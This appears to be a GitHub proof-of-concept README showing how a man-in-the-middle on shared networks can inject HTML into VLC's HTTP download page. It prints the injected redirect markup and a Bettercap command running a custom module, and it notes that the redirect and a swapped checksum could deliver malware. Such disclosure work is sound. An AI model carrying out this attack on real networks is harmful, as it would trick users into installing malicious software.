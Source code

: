 # PoC Video
https://www.youtube.com/watch?v=dhTAqCz7ktU

# Man in The Middle
VLC's official website, even having a valid SSL certificate, does not force users to use the HTTPS protocol. Major search engines have indexed VLC's website as HTTP so users are being redirected to the insecure version of the site.

According to the official stats, published by VLC founder, the software has been downloaded over 2.3 billion times: https://twitter.com/etixxx/status/881926077836398592

Through a "Man in The Middle" attack, it is possible to inject arbitrary HTML code on VLC's official website served over HTTP, deceiving the users to download an authentic installer file but actually redirecting them to a potentially malicious external resource which could deliver a malware-laced package. The attack is doable if both, the user and the attacker, are on the same network (i.e. public access point of an airport, hotel, etc.)

The result of the attack is the alteration of the download page (i.e. http://get.videolan.org/vlc/2.2.6/win32/vlc-2.2.6-win32.exe) where we modify the following parts of code:

```html
<meta http-equiv="refresh" content="5;URL='https://videolan.mirror.garr.it/mirrors/videolan/vlc/2.2.6/win32/vlc-2.2.6-win32.exe'" />

<span> If not, <a href="https://videolan.mirror.garr.it/mirrors/videolan/vlc/2.2.6/win32/vlc-2.2.6-win32.exe" id="alt_link">click here</a>.
```

# How To
In order to effectively carry out the attack, we used Bettercap (https://www.bettercap.org/) and a custom Ruby module "exploit_vlc.rb" which is made publicly available on this repo.

The custom Ruby module contains the URL of the mirror, which we want the victim to point to, for downloading the VLC installer, it is also possible to replace the checksum with one that’s valid for our malware.

Once the module has been customised, Bettercap can be started using root privileges as shown below:

$ sudo bettercap --proxy-module exploit_vlc.rb

Eventually, it would be possible to use a specific target calling the -T option and the network interface with the -I one. If no target is specified, all connected hosts of the network could become a potential target.

# Credits
* Fabio (Naif) Pietrosanti 
* Andrea (Drego) Draghetti
* Eddy (mane) Boscolo

# Disclaimer 
All of provided information in this article is for educational purposes only. You accept full responsibility for the consequences of your use, or non-use, of any information provided by us through any means whatsoever.
